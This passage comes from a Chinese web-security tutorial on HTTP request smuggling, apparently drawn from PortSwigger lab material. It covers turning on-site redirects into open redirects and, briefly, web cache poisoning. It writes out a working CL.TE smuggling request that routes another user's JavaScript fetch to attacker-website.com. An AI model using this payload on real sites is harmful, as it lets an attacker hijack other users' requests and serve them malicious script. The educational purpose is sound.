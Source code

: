 ![image-20200715222528925](http%E8%B5%B0%E7%A7%81/1594912530.png!small)

对照响应包可以看到xss插入的位置

![image-20200715222848241](http%E8%B5%B0%E7%A7%81/1594912539.png!small)

### 5.5 使用HTTP请求走私将现场重定向转变为开放重定向

许多应用程序执行从一个URL到另一个URL的现场重定向，并将主机名从请求的`Host`标头放入重定向URL。一个示例是Apache和IIS Web服务器的默认行为，在该行为中，对不带斜杠的文件夹的请求将收到对包含该斜杠的文件夹的重定向：

```
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

通常，此行为被认为是无害的，但是可以在请求走私攻击中利用它来将其他用户重定向到外部域。例如：

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

走私的请求将触发重定向到攻击者的网站，这将影响后端服务器处理的下一个用户的请求。例如：

```
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

在此，用户请求的是一个JavaScript文件，该文件是由网站上的页面导入的。攻击者可以通过在响应中返回自己的JavaScript来完全破坏受害者用户。

### 5.6使用HTTP请求走私来执行Web缓存中毒

在上述攻击的一种变体中，可能有可能利用HTTP请求走私来执行Web缓存中毒攻击。如果前端基础架构的任何部分执行内容缓存（通常出于性能原因），则可能会使用场外重定向响应来毒化缓存。这将使攻击持续存在，从而影响随后请求受影响URL的所有用户。

Lab地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning
